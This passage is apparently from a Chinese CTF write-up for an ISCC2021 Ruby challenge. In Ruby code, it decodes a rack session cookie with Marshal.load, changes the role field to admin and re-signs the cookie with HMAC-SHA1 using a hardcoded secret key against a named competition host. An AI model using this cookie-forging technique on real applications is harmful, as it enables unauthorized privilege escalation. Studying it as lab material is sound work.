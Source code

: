 找到身份验证的代码，发现这还是从环境变量里取出的FLAG。

![截屏2021-05-11 上午11.02.49](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/ISCC2021%E6%88%AA%E5%B1%8F2021-05-11%20%E4%B8%8A%E5%8D%8811.02.49.png)

翻了翻目录也没找到，突然注意到题目说的是![截屏2021-05-11 上午11.31.55](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/ISCC2021%E6%88%AA%E5%B1%8F2021-05-11%20%E4%B8%8A%E5%8D%8811.31.55.png)

题目提到了两颗红宝石，也就是说两个环境是出题人准备的，想到可能是要我们拿demo的源码打flag环境。

因为不会ruby，猜是session中的role字段要改成admin

参考[Cookie篡改](https://www.freebuf.com/vuls/181368.html)

rack_seesion的组成有两部分，前半部分是由ruby的Marshal.dump生成的序列化字符串，后半部分是签名

前半部分是base64加密过的，url decode后直接base64解密就可以了。接着再用Marshal.load加载为对象

结果如下

```ruby
require "uri"

require 'pp'

require 'base64'

url="http://39.96.91.106:8231"

secret_key="01344904559362f6f5754df256908476702c8bd5d972a32e2fae2a7cc6fa4a7efd25079fddb5a11a0f8be0f607bf048fd6ecfe065380c27b2aa26015c3308e85"

decoded = Base64.decode64("
BAh7CkkiDXVzZXJuYW1lBjoGRUZJIgluMHAzBjsAVEkiCXJvbGUGOwBGSSIJ
dXNlcgY7AFRJIg9zZXNzaW9uX2lkBjsAVEkiRWQ0YmU0YTU5ODAzMDc3NjY3
YzY4MzJkODhmZjExOTZlYWVhMTFmMTEwODdjODkzYTdlOGE0YzIyYTA1OTQ0
NjUGOwBGSSIJY3NyZgY7AEZJIjFFenJPU3poSzBuMWZsVDZRdS93OWdnSCsy
SzFpcGxnUnlteFFQejZzWnM4PQY7AEZJIg10cmFja2luZwY7AEZ7BkkiFEhU
VFBfVVNFUl9BR0VOVAY7AFRJIi00NzExZTRhOTI3OGQyOTMyY2IzMjZmYzBj
MmVhODBiYzJjMDcyZDJhBjsARg==
")
object = Marshal.load(decoded)
pp object
```

![截屏2021-05-11 上午11.06.44](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/ISCC2021%E6%88%AA%E5%B1%8F2021-05-11%20%E4%B8%8A%E5%8D%8811.06.44.png)

发现role字段。

```ruby
# create new session
object["username"] = 'n0p3'
object["role"]='admin'
pp object
# new cookie:
nc =Base64.encode64(Marshal.dump(object)) 
ns = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new,secret_key, nc) 
newcookie = URI.encode(nc).gsub("=","%3D")+"--"+ns
#pp object
pp newcookie
```

生成新cookie

![截屏2021-05-11 上午11.34.26](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/ISCC2021%E6%88%AA%E5%B1%8F2021-05-11%20%E4%B8%8A%E5%8D%8811.34.26.png)



Nice。
